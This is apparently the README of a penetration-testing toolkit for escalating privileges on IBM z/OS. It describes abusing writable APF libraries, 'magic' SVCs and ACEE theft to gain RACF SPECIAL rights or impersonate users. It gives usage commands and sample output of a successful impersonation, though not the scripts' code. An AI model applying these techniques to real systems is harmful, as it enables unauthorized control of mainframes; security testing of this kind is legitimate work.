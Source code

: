 # Privilege escalation on z/OS

Some scripts to quickly escalate on z/OS given certain misconfigurations.  
These techniques have been around for a while, I just stringed some code together to have something easy to use in a pentest.

## ELV.APF    
### Description
This tool will list APF authorized libraries by browsing control blocks in memory. For each library it returns the access right of the current user.  
Given a library with ALTER/UPDATE access, the script compiles an ASM program into that library and executes it to give the SPECIAL privilege to the current user.
the ASM program updates the ACEE block in memory to give temporary SPECIAL privilege, which are made permanent by a regular ALU user SPECIAL a following step.
If you want to manually specify the user getting the SPECIAL privilege, replace userid() with any user in line 104

### Usage
 ```  
 List APF libraries : ex 'ELV.APF' 'LIST'
 Get Special: ex 'ELV.APF' '<APF_LIBRARY>'  
 ```
### Credit
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://mzelden.com/mvsutil.html  
http://zdevops.github.io/zdosu/ 

## ELV.SVC
### Description
This tool will go through user defined SVC looking for a "magic" or "auth" SVC.  
These are SVC generally used to temporarily grant admin privileges to normal users (in some instances installed by vendors)  
ELV.SVC looks for a specific pattern in each user SVC (num > 200) and if finds one dumps the SVC's opcode.  

The tool can also be used to call this "magic" SVC to grant SPECIAL privileges to the current user. It provides the possibility to defined a constant in a register before calling the target SVC to bypass some potential checks.
If you want to change the TSO command giving special privileges, alter line 342

Register 12 is used as base register. As such, it cannot be used to pass parameters.


### Usage
 ```  
 Look for magic SVC on TSO :  
     ex 'ELV.SVC'
 Get Special using SVC 233 and placing C1C1C1C1 in register 10: 
     ex 'ELV.SVC' 'NUM=233 10=C1C1C1C1 DSN=TEST.PDS'
```  
### Credit
Got the idea from Mark Wilson @ich408i   
https://share.confex.com/share/120/webprogram/Handout/Session12275/2013%20Share%20Pen%20Testing.pdf
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://www.mzelden.com/mvsfiles/iplinfo.txt  


## ELV.SELF
The tool lists address spaces currently running on z/OS: started tasks, tso users and jobs  
The user can choose an address space to "impersonate" by stealing their ACEE structure.  
The tool will perform cross memory copy to steal the privileges of the target and patch the current TSO session  
Requirement : APF library with ALTER access OR "magic" SVC (see above)

Register 12 is used as base register. As such, it cannot be used to pass parameters.

### Usage
 ```  
List active address spaces  
 TSO> ex 'ELV.SELF' 'LIST'  
 
 *** Listing active address spaces ***
  
 **** Started Task - Owner *****
 NETVSSI   -
 NETVIEW   -
 NETVSAM   -
 RACF      -  START2
 JES2      -
 DLF       -
 RRS       -
 VLF       -
 LLA       -
 CICSTS32  -  START2
 RMF       -  START2
 NET       -  START2
 RMFGAT    -  START2
 TCPIP     -  TCPIP
 TSO       -  START1
 PORTMAP   -  START2
  
 **** TSO Users - Owner ****
 ZERO     -  ZERO
 IBMUSER   -  IBMUSER
  
 **** Jobs - Owner ****
 FTPD1     -  FTPD
 INETD4    -  OMVSKERN


Impresonate TSO user IBMUSER, using APF library  
TSO > ex 'ELV.SELF' 'TAR=IBMUSER APF=USER.LINKLIB'  
      
Warning: No RACF profile defined for USER.LINKLIB  
Might not be able to write to USER.LINKLIB  
Got ASID 80 for IBMUSER  
Got ASID 38 for current session  
Local ACEE at  008FC6F0  
Compiling  UNCVDDF in APF USER.LINKLIB  

TSO > LU
USER=IBMUSER  NAME=*******  OWNER=IBMUSER   CREATED=*****


Impresonate Started task CICSTS32, using magic SVC 233 (register 10 to AAAA to grant access)      
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233 10=C1C1C1C1'  
Impresonate Started task CICSTS32, using magic SVC 233     
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233'  
```  
